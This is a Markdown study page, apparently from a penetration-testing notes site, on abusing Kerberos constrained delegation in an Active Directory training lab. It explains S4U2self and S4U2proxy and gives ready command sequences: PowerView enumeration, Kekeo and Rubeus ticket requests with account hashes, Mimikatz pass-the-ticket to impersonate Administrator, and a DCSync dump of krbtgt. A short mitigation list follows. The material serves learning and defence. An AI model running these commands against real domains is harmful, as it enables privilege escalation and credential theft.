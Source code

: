 ```yaml
---
title: "Constrained Delegation"
description: "Privilege escalation using constrained delegation."
lead: "Using constrained delegation for privilege escalation in Active Directory with PowerView, Mimikatz, and Rubeus."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_privilege_escalation"
weight: 40
toc: true
---
```


## General

- When enabled on a service account, allows access only to specified services on specified computers as a user
- Typical scenario:
  - User authenticates to a web service without Kerberos
  - Web services makes requests to database server to fetch results based on the user's authorization
- To impersonate the user, Service for User (S4U) extension is used which provides two extensions

### Service for User to Self (S4U2self) Extension

- Allows service to obtain a forwardable TGS to itself on behalf of a user
- Only needs the user principal name but NO PASSWORD
- Service account must have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` - T2A4D UserAccountControl attribute set

### Service for User to Proxy (S4U2proxy) Extension

- Allows service to obtain a TGS to a second service on behalf of a user
- Uses the previously obtained TGS from S4U2self
- Only allows access to services listed in the `msDS-AllowedToDelegateTo` attribute
- Attribute contains list of SPNs to which the user tokens can be forwarded

## Example Scenario: Constrained Delegation with Protocol Transition

1. User (Joe) authenticates to web service running under `websvc` service account using non-Kerberos method
2. Web service requests ticket from KDC for Joe without supplying a password, as the websvc account
3. KDC checks the websvc userAccountControl value for TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute
4. If set, KDC checks that Joe's account is not blocked for delegation
5. If OK, KDC returns forwardable ticket for Joe's account (S4U2self)
6. Service passes ticket back to the KDC and requests a TGS for the CIFS/dcorp-mssql.dollarcorp.moneycorp.local service
7. KDC checks the msDS-AllowedToDelegateTo field on the websvc account
8. If SPN is listed there, KDC return TGS for dcorp-mssql (S4U2proxy)
9. Web service can now authenticate to the CIFS on dcorp-mssql as Joe using the obtained TGS

## Exploitation

### For Users with Constrained Delegation

- Requires access to the user/service account
- If we can access it, we can access all the listed services in msDS-AllowedToDelegateTo attribute
- Can access the services as ANY user

```powershell
# Enumerate users with constrained delegation enabled
# PowerView 3.0
Get-DomainUser -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo} -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Kekeo
# Request TGT for websvc user
tgt::ask /domain:dollarcorp.moneycorp.local /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f

# Request TGS using s4u in Kekeo and supplying the requested TGT
# Impersonate the Administrator Domain Admin
# We gain access to the CIFS service
tgs::s4u /tgt:tgt.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local

# Inject the ticket using mimikatz
Invoke-Mimikatz -Command '"kerberos::ptt tgs.kirbi"'

# We can do both steps at the same time using Rubeus
# Request TGT and TGS in a single command
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /ptt

# We can now access the CIFS service on dcorp-mssql as the dcorp\Administrator DA user
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

### For Computers with Constrained Delegation

- Delegation occurs not only for specific service
- Occurs for ANY service running under the same service account
- No validation for SPN specified
- Requires hash of the machine account of the computer running with constrained delegation

```powershell
# Enumerate computers with constrained delegation enabled
# PowerView 3.0
Get-DomainComputer -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo} -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Kekeo
# Request TGT for machine account
tgt::ask /domain:dollarcorp.moneycorp.local /user:dcorp-adminsrv$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96

# Using s4u, request TGS to access the LDAP service as the DA Adminstrator
tgs::s4u /tgt:tgt.kirbi /user:Administrator@dollarcorp.moneycorp.LOCAL /service:time/dcorp-dc.dollarcorp.moneycorp.local|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL

# Inject ticket into memory with Mimikatz
Invoke-Mimikatz -Command '"kerberos::ptt tgs.kirbi"'

# Request TGS and TGT at the same time with Rubeus
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96 /impersonateuser:Administrator /msdsspn:"time/dcorp-dc.dollarcorp.moneycorp.local" /altservice:ldap /ptt

# Execute DCSync attack with new permissions
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Mitigation

- Disable Kerberos delegation where possible
- Limit DA/Admin logins to specific services
- Set "Account is sensitive and cannot be delegated" for privileged accounts

## Further Reading

- [iRedTeam: Kerberos Constrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)
- [HackTricks: Constrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology/constrained-delegation)
- [PayloadsAllTheThings: Kerberos Constrained Delegation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberos-constrained-delegation)
- [ShenanigansLabs: Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
